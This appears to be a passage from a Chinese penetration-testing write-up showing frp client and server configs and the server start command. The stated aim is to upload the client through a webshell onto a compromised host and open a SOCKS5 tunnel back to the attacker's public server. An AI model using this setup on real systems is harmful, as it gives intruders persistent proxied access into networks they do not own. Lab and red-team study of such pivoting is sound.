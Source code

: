 很简单，frpc是客户端，frps是服务端

[![](assets/1703210060-30bad2f1824b122fbdbbf7ee60c5e9bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205110407-f432e73a-931a-1.png)

配置`frpc.ini`:

```plain
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000

[frp]
type = tcp
remote_port = 6000
plugin = socks5    //这一句必须要加，不然代理连不上
```

客户端通过WebShell上传，frps上传到自己的公网服务器上，配置`frps.ini`:

```plain
# frps.ini
[common]
bind_port = 7000
```

接下来要在自己的公网服务器上开6000和7000这两个端口，并执行命令进行监听：

```plain
./frps -c ./frps.ini
```

